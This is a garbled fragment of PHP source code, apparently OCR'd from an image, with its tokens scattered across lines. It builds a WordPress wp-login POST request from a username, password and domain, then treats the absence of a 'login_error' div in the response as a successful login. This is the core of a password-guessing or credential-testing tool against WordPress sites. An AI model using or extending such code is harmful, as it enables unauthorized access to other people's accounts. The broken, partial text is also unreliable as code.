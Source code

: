 ) {
                

$post

=

"log="

.urlencode(

$name

).

"&pwd="

.urlencode(

$pass

).

"&wp-submit=%E7%99%BB%E5%BD%95&redirect_to="

.urlencode(

$domain

).

"%2Fwp-admin%2F&testcookie=1"

;

                

$pos

=

strpos

(httprequest(

$url

,

$post

),

'div id="login_error"'

);
                

if

(

$pos

=== false) {

                    